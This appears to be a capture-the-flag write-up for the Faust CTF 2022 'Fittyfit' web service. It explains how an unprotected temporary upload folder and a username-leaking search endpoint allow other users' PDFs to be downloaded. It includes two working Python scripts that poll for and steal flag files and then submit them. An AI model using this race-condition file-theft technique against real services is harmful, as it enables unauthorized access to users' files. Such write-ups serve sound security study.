 ```yaml
---
layout: post
title:  "Fittyfit - A/D Web Service"
date:   2022-07-10 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Fittyfit
Author: d1l3mm4
Description: Download sensitive files using race conditions and info leaks
CTF: Faust CTF 2022
Category: A/D Web Service
```

Warning: unintended solution here :p <br> <br>

This challenge presents itself as a web service where to generate and exchange "NFTs". <br>
Here we can upload a pdf, set some attributes to tag it, transfer it to other users and download your files. <br>

We focused our attention on the first of these steps: <br> <br>

When you generate a new NFT, there are two steps involved:

- Upload the pdf file
- Add the tags to the file

Between these steps, the file is in the ```data/nft/generator``` folder, waiting for it to be edited and moved to the ```data/nft/<username>/<hash>/``` path.


{% highlight python %}
@app.route('/generate', methods=['GET', 'POST'])
def generate():
    #...
    # UPLOAD
    if step == "upload":      
        # ...
        filename = secure_filename(file.filename)
        # Store file for generator
        path = os.path.join(app.config['NFT_FOLDER'], "generator", filename)
        file.save(path)
        return render_template("generate.html", step="generate", filename=filename)
{% endhighlight %}

{% highlight python %}
@app.route('/generate', methods=['GET', 'POST'])
def generate():
    #...
    # GENERATE
    elif step == "generate":       
        # ...
        # Generate NFT
        path1 = os.path.join(app.config['NFT_FOLDER'], "generator", filename)
        path2 = os.path.join(app.config['NFT_FOLDER'], g.user.name, g.user.hash, filename)   

        succ = nft_transfer(app.config['NFT_FOLDER'], path1, path2, g.user.name, infos)
        if not succ:
            return render_template("generate.html", step="upload")

        flash("You succesfully generated your NFT :)", "green")
        return render_template("generate.html", step="done")
{% endhighlight %}

During this time, the file is accessible by anyone, i.e. there isn't any access control on ```data/nft/generator``` folder, where files are temporarily stored awaiting for further processing. The only thing to know to query a file from there is the actual name of the file. <br> <br>

By looking at the traffic capture related to bot interaction with the service within a tick, we can see that the bot awaits some time between the file upload and the nft generation, _maybe_ we're lucky enough to try and read the file while it is still "processing". <br>

![wireshark_screen](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/fittyfit_wireshark.jpg?raw=true)

We've also noticed that the filename of the flag has the same UUID as the username of the bot who created it. <br> <br>

Knowing this, we can use another endpoint ( ```/search``` ), tied to the transfer functionality, needed to implement the auto-complete front-end function on the "target username" field in the form. <br> <br>

By making the following request to the endpoint: ```/search?s=MrFlag_```, we obtain a list of the bot's accounts. <br>
With this, we have all the info needed to try to get the desired file. <br>

Now, all we need to do is writing the exploit and hope for the best (in a busy network this approach is not very reliable). <br>
We'll start by creating a new user and signing in. After that, we'll poll the ```search``` endpoint, looking for new bots registered. <br> <br>

When we find one, we start to poll the endpoint ```nft?file=generator/FlagNFT_{bot-UUID}.pdf```, hoping to find a file to download. <br>
If so, then we can read its content using a python library like ```PyPDF2``` and with that we're ready to submit the flag. <br> <br>

For this exploit we used two scripts, a multi-threaded one to dump pdf files to the local folder, and another one which makes polling on the folder to find new pdf files, read the contents of each one, submit flags and move them to another folder. <br> 
We managed to get ~300 attack points on this service during the CTF, running the script for 4 hours. <br> <br>

We provide here only the exploit stub of the first script and the complete second script. <br>
The first one:

{% highlight python %}
from random_user_agent.user_agent import UserAgent
from requests import get, put, post, Session, ReadTimeout, ConnectionError
import re
import random
import string
import time


def exploit(ip):
    # In our multi-threaded setup, an exploit stub has to return flags, but in this case
    # it always returns an empty list, because flags are read from files and submitted by
    # the other script
    BASE_URL	= 'http://[fd66:666:{}::2]:5001/'
    url = BASE_URL.format(ip)

    ua = UserAgent()
    user_agent = ua.get_random_user_agent()

    test_username = rand()
    
    with Session() as s:
        s.headers = {'User-Agent': user_agent}
        
        try:
            # Register
            burp0_url = url + "register"
            burp0_data = {"name": test_username}
            req = post(burp0_url, headers={'User-Agent': user_agent}, data=burp0_data, timeout=4)

            # Check error
            if "FAUST proxy" in req.text:
                return []
            expr_res = re.search(r'<b>([A-Za-z0-9]+)</b>', req.text, re.M)
            if expr_res:
                hash_user = expr_res.group()
            else:
                return []
            
            hash_user = hash_user.replace("<b>","")
            hash_user = hash_user.replace("</b>","")

            # Get password
            burp0_url = "https://mega-totp.faustctf.net:443/get_password"
            burp0_cookies = {"secrets": "\"[{\\\"s\\\": \\\""+hash_user+"\\\"\\054 \\\"n\\\": \\\"fittyfit\\\"}\""}
            burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "Accept": "*/*", "Accept-Language": "en-GB,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://mega-totp.faustctf.net/", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://mega-totp.faustctf.net", "Connection": "close", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "DNT": "1", "Sec-GPC": "1", "Pragma": "no-cache", "Cache-Control": "no-cache"}
            burp0_data = {"s": hash_user}
            req = post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, timeout=4)
            password = req.text

            # Login
            burp0_url = url + "login"
            burp0_data = {"name": test_username, "pass": password}
            req = s.post(burp0_url, data=burp0_data, timeout=4)

            # Get initial UUIDs list
            burp0_url = url + "search?s=MrFlag_"
            req = s.get(burp0_url)
            prev = set(req.json().keys())
            while True:
                time.sleep(0.1)
                try:
                    burp0_url = url + "search?s=MrFlag_"                    
                    req = s.get(burp0_url, timeout=4)
                    cur = set(req.json().keys())
                    
                    if len(cur-prev) > 0:
                        attempts = list(cur-prev)
                        target_users = [usr for usr in attempts if "MrFlag" in usr]
                        prev = cur
                    
                    if len(target_users) == 0:
                        continue

                    # Try at most 10 times for each target user
                    target_users = set(target_users)
                    i = 0
                    while i < 10:
                        ok_users = set()
                        for target_user in target_users:
                            filename = target_user.replace("MrFlag","FlagNFT")
                            filename = filename + ".pdf"
                            burp0_url = url+"nft?file=generator/"+filename
                            req = s.get(burp0_url, timeout=4)
                            
                            if(req.status_code == 200):
                                ok_users.add(target_user)
                                with open(filename, "wb") as f:
                                    f.write(req.content)

                        target_users = target_users - ok_users
                        if len(target_users) == 0:
                            break
                        i += 1

                    time.sleep(0.25)
                except (ReadTimeout, ConnectionError):
                    break
        except:
            return []

    return []


def rand_string(min = 8, max = 12):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for _ in range(random.randint(min, max)))

{% endhighlight %}

The second:

{% highlight python %}
import os
import PyPDF2
import time
from pwn import *


SUBMIT_FLAG = 'submission.faustctf.net'


def submit(flags):
    if type(flags) is not list:
        flags = [x for x in flags]

    flags = '\n'.join(flags)
    r = remote(SUBMIT_FLAG, 666)
    r.send(flags.encode())
    r.close()
    data = r.recvrepeat(timeout=2)
    print(data)
    return


if __name__ == "__main__":
    while True:
        time.sleep(5)
        files = os.listdir()
        files = [file for file in files if ".pdf" in file]
        flags = list()
        for file in files:
            try:
                reader = PyPDF2.PdfFileReader(file)
                flag = reader.getPage(0).extractText()
                flags.append(flag)
            except:
                print("ops")
        print(flags)
        if len(flags) == 0:
            continue
        while True:
            try:
                submit(flags)
                break
            except ValueError:
                print("Retry submit after 1 second")
                time.sleep(1)
        for file in files:
            os.system(f"mv {file} pdfs/")
        
{% endhighlight %}

Bonus pdf NFT with flag: [](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/FlagNFT_0c2db212-27fb-44a0-bc03-5c58135e8ed7.pdf)


